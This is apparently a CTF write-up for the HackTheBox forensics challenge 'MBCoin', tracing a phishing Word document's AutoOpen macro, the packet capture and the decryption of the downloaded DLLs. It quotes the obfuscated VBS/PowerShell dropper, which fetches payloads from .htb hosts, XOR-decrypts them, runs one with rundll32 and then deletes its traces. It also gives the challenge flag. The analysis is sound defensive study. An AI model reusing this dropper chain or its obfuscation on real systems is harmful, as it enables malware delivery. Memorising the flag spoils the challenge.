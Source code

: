 # MBCoin

MBCoin was a medium Forensics challenge with only downloadable files.

### Challenge pretext:

We have been actively monitoring the most extensive spear-phishing campaign in recent history for the last two months. This campaign abuses the current crypto market crash to target disappointed crypto owners. A company's SOC team detected and provided us with a malicious email and some network traffic assessed to be associated with a user opening the document. Analyze the supplied files and figure out what happened.

The zip file consisted of 2 files:  **mbcoin.doc** and **mbcoin.pcapng**.

### mbcoin.doc
**mbcoin.doc** was an old Microsoft Word 97 - 2003 Document (.doc) format.  The file, when opened, showed a word document with the following text:

```
Hello,

Are you wondering about how you can make more money through a smarter investment? If you have looked at the profits available from cryptocurrency and thought it was too late, now is your chance. Get in on the ground floor today with the announcement of MBCoin.

You may be eligible for free MBCoin! Make sure to click “Enable Content” and this document will calculate how much MBCoin you’ve won.

Happy Investing to the Moon,

Monkey Business Investments
```
https://i.imgur.com/i24NXcT.png

The document had a macro that was set to run on AutoOpen (when document is loaded).
[https://i.imgur.com/pajYgdX.png]https://i.imgur.com/pajYgdX.png

Analyzed the VBA code, it looks to take 2 strings from the document somewhere (`ActiveDocument.Shapes(1)` and `(2)`) and write them to a file c:\\ProgramData\\pin.vbs, then execute it with: `cmd /k cscript.exe c:\ProgramData\pin.vbs`

When unzipping the .doc file with 7-zip I found a few other files that did not show up the first time, when using linux unzip.  Not sure why this was:
https://i.imgur.com/2x1RuiS.png

Inside the 1Table file, found plenty of VBA code with obfuscated Powershell commands. This looks to be the contents of the pin.vba:
```
 L L 1   =   " $ N a n o = ' J O O E X ' . r e p l a c e ( ' J O O ' , ' I ' ) ; s a l   O Y   $ N a n o ; $ a a = ' ( N e w - O b ' ;   $ q q = ' j e c t   N e ' ;   $ w w = ' t . W e b C l i ' ;   $ e e = ' e n t ) . D o w n l ' ;   $ r r = ' o a d F i l e ' ;   $ b b = ' ( ' ' h t t p : / / p r i y a c a r e e r s . h t b / u 9 h D Q N 9 Y y 7 g / p t . h t m l ' ' , ' ' C : \ P r o g r a m D a t a \ w w w 1 . d l l ' ' ) ' ; $ F O O X   = ( $ a a , $ q q , $ w w , $ e e , $ r r , $ b b , $ c c   - J o i n   ' ' ) ;   O Y   $ F O O X | O Y ; " 
 
 L L 2   =   " $ N a n o z = ' J O O E X ' . r e p l a c e ( ' J O O ' , ' I ' ) ; s a l   O Y   $ N a n o z ; $ a a = ' ( N e w - O b ' ;   $ q q = ' j e c t   N e ' ;   $ w w = ' t . W e b C l i ' ;   $ e e = ' e n t ) . D o w n l ' ;   $ r r = ' o a d F i l e ' ;   $ b b = ' ( ' ' h t t p s : / / p e r f e c t d e m o s . h t b / G v 1 i N A u M K Z / j v . h t m l ' ' , ' ' C : \ P r o g r a m D a t a \ w w w 2 . d l l ' ' ) ' ; $ F O O X   = ( $ a a , $ q q , $ w w , $ e e , $ r r , $ b b , $ c c   - J o i n   ' ' ) ;   O Y   $ F O O X | O Y ; " 

[...]
 
 M M 1   =   " $ b   =   [ S y s t e m . I O . F i l e ] : : R e a d A l l B y t e s ( ( ( ' C : G P H ' + ' p r ' + ' o g ' + ' r a ' + ' m d a t a G ' + ' P H w w w 1 . d ' + ' l l ' )     - C r e P L a c E ' G P H ' , [ C h a r ] 9 2 ) ) ;   $ k   =   ( ' 6 i ' + ' I ' + ' g l ' + ' o ' + ' M k 5 ' + ' i R Y A w ' + ' 7 Z ' + ' T W e d 0 C r ' + ' j u Z 9 w i j y Q D j ' + ' K O ' + ' 9 M s 0 D 8 K 0 Z 2 H 5 M X 6 w y O K q F x l ' + ' O m 1 ' + ' X ' + ' p j m Y f a Q X ' + ' a c A 6 ' ) ;   $ r   =   N e w - O b j e c t   B y t e [ ]   $ b . l e n g t h ;   f o r ( $ i = 0 ;   $ i   - l t   $ b . l e n g t h ;   $ i + + ) { $ r [ $ i ]   =   $ b [ $ i ]   - b x o r   $ k [ $ i % $ k . l e n g t h ] } ;   i f   ( $ r . l e n g t h   - g t   0 )   {   [ S y s t e m . I O . F i l e ] : : W r i t e A l l B y t e s ( ( ( ' C : Y 9 A p r o ' + ' g r a m d a t ' + ' a ' + ' Y ' + ' 9 A w w w ' + ' . d ' + ' l l ' ) . R E p L a c e ( ( [ c h A r ] 8 9 + [ c h A r ] 5 7 + [ c h A r ] 6 5 ) , [ s T r i N g ] [ c h A r ] 9 2 ) ) ,   $ r ) } " 
 
 M M 2   =   " $ b   =   [ S y s t e m . I O . F i l e ] : : R e a d A l l B y t 
 
 [...]
 
 S e t   R a n   =   C r e a t e O b j e c t ( " w s c r i p t . s h e l l " ) 
 R a n . R u n   H H 0 + M M 1 , C h r ( 4 8 ) 
 W S c r i p t . S l e e p ( 5 0 0 ) 
 R a n . R u n   H H 0 + M M 2 , C h r ( 4 8 ) 
 W S c r i p t . S l e e p ( 5 0 0 ) 
 R a n . R u n   H H 0 + M M 3 , C h r ( 4 8 ) 
 W S c r i p t . S l e e p ( 5 0 0 ) 
 R a n . R u n   H H 0 + M M 4 , C h r ( 4 8 ) 
 W S c r i p t . S l e e p ( 5 0 0 ) 
 R a n . R u n   H H 0 + M M 5 , C h r ( 4 8 ) 
 
 W S c r i p t . S l e e p ( 1 5 0 0 0 ) 
 O K 1   =   " c m d   / c   r u n d l l 3 2 . e x e   C : \ P r o g r a m D a t a \ w w w . d l l , l d r " 
 O K 2   =   " c m d   / c   d e l   C : \ p r o g r a m d a t a \ w w w * " 
 O K 3   =   " c m d   / c   d e l   C : \ p r o g r a m d a t a \ p i n * " 
 R a n . R u n   O K 1 ,   C h r ( 4 8 ) 
 W S c r i p t . S l e e p ( 1 0 0 0 ) 
 R u n . R u n   O K 2 ,   C h r ( 4 8 )
 
 ```
 
 After studying the code for a while, I figured out that 5 dll files were being downloaded and decrypted on the machine: in LL1, pt.html is being downloaded from priyacareers.htb, then saved as www1.dll.  Then later on in MM1, the www1.dll file is decrypted and then saved as www.dll. 
 
 At the bottom of the code, the only dll that appears to actually be run is www.dll.  So it looks like the last file that successfully downloads is the actual www.dll, the others are never run. Looks like it loads a function 'ldr'.

I then uploaded the mbcoin.doc file to an online sandbox, https://any.run so I could watch it explode and capture any other possible clues easily, even though the domains it reaches out to don't look to exist in the real world.  Noticed the last step is the execution of rundll32.exe www.dll,ldr file just as I expected.
[https://app.any.run/tasks/95061781-61c3-4dd6-bf3e-e5fcea6db905](https://app.any.run/tasks/95061781-61c3-4dd6-bf3e-e5fcea6db905 "https://app.any.run/tasks/95061781-61c3-4dd6-bf3e-e5fcea6db905")
[https://i.imgur.com/cZsoNq7.png]https://i.imgur.com/cZsoNq7.png

### mbcoin.pcapng
**mbcoin.pcapng** is a packet capture file.  Therer were 4 different IPv4 conversations in total- 
1) some DNS requests to  10.1.1.5
2) a suspicious request to 192.0.2.111/ByH5NDoE3kQA/vm.html (cablingpoint.htb) 
3) a request to a missing page 203.0.113.223/ze8pCNTIkrIS/wp.html (business-z.htb)
4) a suspicious request to 10.1.1.163/u9hDQN9Yy7g/pt.html (priyacareers.htb)

The suspicious requests look to contain encrypted data:

```
GET /u9hDQN9Yy7g/pt.html HTTP/1.1
Host: priyacareers.htb
Connection: Keep-Alive
 

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.8.10
Date: Wed, 29 Jun 2022 14:04:59 GMT
Content-type: text/html
Content-Length: 10752
Last-Modified: Wed, 29 Jun 2022 13:32:37 GMT


{3.gooMk1iRY..7Z.Wed0Crj5Z9wijyQDjKO9Ms0D8K0Z2H5MX6wyOKqFxlOm0Xpdr.ha.Q.B.7z.h3..>KE.=>3.Zz76.
_7R..zK..J.?d.... .T!.F=P.H5MX6wy{.......A.......(.l.3...[...?...@...M...w...
...+...
.../.......;...........8.......).......)...........9\
:)...ZTWed0CrjuZ9wijy..jK+.Ks...)0Z2H5MX6.ymkzDvsO}1XpvmYfaQX.pA66yIgloM.4iRYAg7ZTUed6CrjuZ9wojyQDjKO9=s0D<K0Z2H5OXVvyO[qFxlOm!XpjmYfaQHacA66iYgloMk5iRYAg7ZT.Md0.rjun.wi.yQDj.O9.s0D8.0Z.I5MX6wyOKqFx.Om.Xpj.zfa!XacA66iIgloMk5iRYAw7ZTWed0CBHuZyvijyQDjKO9Ms.D8.0Z2H5MX6wyOKqFxlOm1XpjmYfaQv..9B6iI.boMk%iRYQw7ZPWed0CrjuZ9wijyqDj+aK).D%8K.W2H5mX6wwOKqRxlOm1XpjmYfaQX!cAv.
[...]
```

Saved these files from 2) and 4) to vm.html and pt.html, by extracting all files via HTTP in Wireshark: File - Export Objects - HTTP - Save all

Copied/modified some of the powershell to decrypt the files and save them:

(Thanks to my co-worker Aaron for noticing the keys ARE different, explaining why my files were not ever decrypting quite properly!)

```
$dir="C:\temp\mbcoin"

sl $dir
$fnames=@("pt.html",
          "vm.html")
$keys=@("6iIgloMk5iRYAw7ZTWed0CrjuZ9wijyQDjKO9Ms0D8K0Z2H5MX6wyOKqFxlOm1XpjmYfaQXacA6",
        "6iIoNoMk5iRYAw7ZTWed0CrjuZ9wijyQDjPy9Ms0D8K0Z2H5MX6wyOKqFxlOm1GpjmYfaQXacA6")

$x=0
foreach ($fname in $fnames) {
  $b = [System.IO.File]::ReadAllBytes("$($dir)\$($fname)"); 
  $k = $keys[$x]
  $r = New-Object Byte[] $b.length; 
  for($i=0; $i -lt $b.length; $i++) { 
    $r[$i] = $b[$i] -bxor $k[$i%$k.length]
  }
  if ($r.length -gt 0) { 
    [System.IO.File]::WriteAllBytes("$($dir)\$($fname).txt", $r)
  }
  $x+=1
}
```

Renamed both of these files pt.html.txt to www1.dll, and vm.html.txt to www4.dll.
Finally, at this point, I had a valid www1.dll and www4.dll.  

Ended up opening Ghidra to see what each dll does.  In www1.dll there was a note 'Are you sure this was the DLL loaded on the system?' which I had noticed earlier by browsing the binary.  This file was copied over and never run.

In www4.dll, I browsed to the ldr function, and found the flag:
https://i.imgur.com/Fbxr43I.png

Overall this challenge took me way longer than expected, as first I could not find the contents of pin.vbs since I was using linux unzip instead of 7-zip, and all my other oletools etc did not show it either, until I was able to see it in any.run (sandbox).

HTB{wH4tS_4_sQuirReLw4fFl3?}
